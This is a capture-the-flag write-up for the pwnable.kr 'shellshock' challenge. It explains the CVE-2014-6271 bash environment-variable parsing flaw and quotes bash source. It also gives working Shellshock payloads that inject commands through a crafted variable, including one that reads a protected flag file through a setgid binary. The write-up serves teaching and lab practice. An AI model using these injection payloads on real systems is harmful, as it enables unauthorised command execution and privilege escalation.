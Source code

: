```yaml
---
title: "Writeup: shellshock"
date: 2020-12-14T23:00:54+08:00
draft: false
---
```


This is a challenge in [pwnable.kr](https://pwnable.kr/). The home directory contains the following files: 

```
shellshock@pwnable:~$ ls -al
total 980
drwxr-x---   5 root shellshock       4096 Oct 23  2016 .
drwxr-xr-x 116 root root             4096 Apr 17  2020 ..
-r-xr-xr-x   1 root shellshock     959120 Oct 12  2014 bash
d---------   2 root root             4096 Oct 12  2014 .bash_history
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
dr-xr-xr-x   2 root root             4096 Oct 12  2014 .irssi
drwxr-xr-x   2 root root             4096 Oct 23  2016 .pwntools-cache
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r--   1 root root              188 Oct 12  2014 shellshock.c
```

The source code can be displayed as follows. 

```
shellshock@pwnable:~$ cat shellshock.c
#include <stdio.h>
int main(){
      setresuid(getegid(), getegid(), getegid());
      setresgid(getegid(), getegid(), getegid());
      system("/home/shellshock/bash -c 'echo shock_me'");
      return 0;
}
```

Originally, the permission of the executable shellshock is `r-xr-sr-x`, that is, our permission (other) is r-x. The function setresuid() is used to set the real, effective, and saved user ID; setresuid() has analogous function that set the real, effective, and saved group ID. Since shellshock belongs to the group shellshock_pwn, after executing the setresuid and setresgid function, we are able to own the same permission as group shellshcok_pwn.

[Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)) is a vulnerability in the Bash shell, it is first published in 2014. According to the report [CVE-2014-6271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271), attackers can exploit it with a crafted environment variable. The problem is about parse logic, it is located in [variables.c](http://git.savannah.gnu.org/cgit/bash.git/tree/variables.c?id=ac50fbac377e32b98d2de396f016ea81e8ee9961#n315). Here is the part of source code. 

```
void initialize_shell_variables (env, privmode)
     char **env;
     int privmode;
{
    ...
    for (string_index = 0; string = env[string_index++]; )
    	...
      	/* If exported function, define it now.  Don't import functions from
	 the environment in privileged mode. */
      	if (privmode == 0 && read_but_dont_execute == 0 && STREQN ("() {", string, 4))
      	{
            ...
            if (posixly_correct == 0 || legal_identifier (name))
                parse_and_execute (temp_string, name, SEVAL_NONINT|SEVAL_NOHIST);
```

As you can see, STREQN ("() {", string, 4) means the program check whether the first 4-byte of the string is "() {" or not. If the string starts at "() {", the shell program will regard it as an environment variable. However, it may cause a security problem since more general strings are allowed to be executed. 

For example, the string can contain two commands which are separated by a semicolon (;) symbol, then both the commands will be executed. 

```
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
                 ^^^^^^^^^^^^^^^                                arbitrary command
```

Now, let's check if Shellshock vulnerability exists in the challenge. Obviously, the bash provided is not safe. 
```
shellshock@pwnable:~$ env x='() { :;}; echo velnerable' ./bash -c "echo this is a test"
velnerable
this is a test
```

So we can exploit it and get the flag. 

```
shellshock@pwnable:~$ env x='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)
```

<br>

## Reference

1. Computer & Internet Security: A Hands-on Approach, Wenliang Du. 
2. CVE-2014-6271 (Shellshock): The story of a permissive parser, Portcullis Labs. 